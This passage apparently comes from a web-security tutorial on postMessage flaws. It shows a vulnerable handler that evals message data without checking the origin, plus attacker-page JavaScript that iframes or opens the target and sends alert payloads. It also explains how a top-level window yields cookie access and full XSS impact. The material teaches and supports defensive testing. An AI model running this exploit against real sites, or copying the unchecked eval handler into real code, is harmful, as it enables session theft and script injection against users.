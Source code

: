 Another option is using extensions that **automatically** log every message being sent. This allows you to get a quick idea of what kind of data is being sent, and if it may be sensitive or dangerous:

{% embed url="http://github.com/Geluchat/postMessage-tracker" %}
**Log** every message to the console, and view the **extension popup** to see a clear **list of handlers** traced to their source
{% endembed %}

{% embed url="https://portswigger.net/burp/documentation/desktop/tools/dom-invader/web-messages" %}
In Burp Suite browser, automatically inject canaries into **sources** and look for well-known **sinks**
{% endembed %}

An example of a dangerous handler is the following. Note that it does not verify the origin of the message, and the sent data ends up in a dangerous sink (`eval`):

<pre class="language-javascript" data-title="https://example.com"><code class="lang-javascript"><strong>onmessage = (e) => {
</strong><strong>  eval(e.data);
</strong>};
</code></pre>

An attacker can exploit this by _iframing (1)_ the above page, or by opening a top-level _window (2)_ to it. Then they need to send a `postMessage` to this window that will exploit the sink:

<pre class="language-javascript" data-title="https://attacker.com"><code class="lang-javascript">const iframe = document.createElement("iframe");
<strong>iframe.src = "https://example.com";
</strong>document.body.appendChild(iframe);

// 1. Load it in an iframe, then use .contentWindow to get a reference for sending messages
setTimeout(() => {
<strong>  iframe.contentWindow.postMessage("alert(1)", "*");
</strong>}, 1000);

// 2. After interaction, open a window and send a message to it
onclick = () => {
<strong>  const w = window.open("https://example.com");
</strong>
  setTimeout(() => {
<strong>    w.postMessage("alert(2)", "*");
</strong>  }, 1000);
    };
</code></pre>

Notably, cookies and other resources like localStorage are not available in a third-party context like an iframe where the top-level (address bar) origin is different from the target origin. The only exception to this is `SameSite=None` cookies which are readable or fetch same-origin resources without any CORS limitations.

This means that to really exploit an XSS, you need to **use a window** instead of an iframe because its **top-level** origin is the same as the target origin. You will be able to read any non-httpOnly cookies through `document.cookie`, or use any cookies in a `fetch()` without CORS limitations, gaining full XSS impact.
